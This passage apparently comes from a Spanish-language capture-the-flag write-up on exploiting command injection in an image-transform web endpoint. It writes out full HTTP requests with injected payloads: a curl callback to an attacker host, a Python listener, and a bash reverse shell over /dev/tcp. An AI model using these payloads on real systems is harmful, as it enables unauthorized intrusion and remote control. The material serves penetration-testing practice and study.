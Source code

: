 ```
"; curl http://<IP_ATTACKER>/"
```

Para intentar concatenar cualquier comando que se este ejecutando por detras y despues que nos llegue una peticion a ver si se esta ejecutando bien quedando la peticion de esta forma:

```
POST /apply_visual_transform HTTP/1.1
Host: 10.10.11.88:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.10.11.88:8000/
Content-Type: application/json
Content-Length: 146
Origin: http://10.10.11.88:8000
Connection: keep-alive
Cookie: session=.eJxNjTEOgzAMRe_iuWKjRZno2FNELjGJJWJQ7AwIcfeSAanjf_9J74DAui24fwI4oH5-xlca4AGs75BZwM24KLXtOW9UdBU0luiN1KpS-Tdu5nGa1ioGzkq9rsYEM12JWxk5Y6Syd8m-cP4Ay4kxcQ.aODObA.AyvVMpCmpZu7T2rEhILFmICqF-Q
Priority: u=0

{"imageId":"9bb59b7d-ed61-4245-8590-515a79d2bc7e","transformType":"crop","params":{"x":1,"y":0,"width":"; curl http://<IP_ATTACKER>/","height":567}}
```

Abriremos un servidor de `python3`.

```shell
python3 -m http.server 80
```

Ahora si enviamos la peticion nos llegara a nuestro servidor esto:

```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.88 - - [04/Oct/2025 03:45:49] code 404, message File not found
```

Veremos que funciona, por lo que vamos a probar a realizar una `reverse shell` de esta forma:

```
POST /apply_visual_transform HTTP/1.1
Host: 10.10.11.88:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.10.11.88:8000/
Content-Type: application/json
Content-Length: 146
Origin: http://10.10.11.88:8000
Connection: keep-alive
Cookie: session=.eJxNjTEOgzAMRe_iuWKjRZno2FNELjGJJWJQ7AwIcfeSAanjf_9J74DAui24fwI4oH5-xlca4AGs75BZwM24KLXtOW9UdBU0luiN1KpS-Tdu5nGa1ioGzkq9rsYEM12JWxk5Y6Syd8m-cP4Ay4kxcQ.aODObA.AyvVMpCmpZu7T2rEhILFmICqF-Q
Priority: u=0

{"imageId":"9bb59b7d-ed61-4245-8590-515a79d2bc7e","transformType":"crop","params":{"x":1,"y":0,"width":"; /bin/bash -c \"/bin/bash -i >& /dev/tcp/<IP>/<PORT> 0>&1\";","height":567}}
```
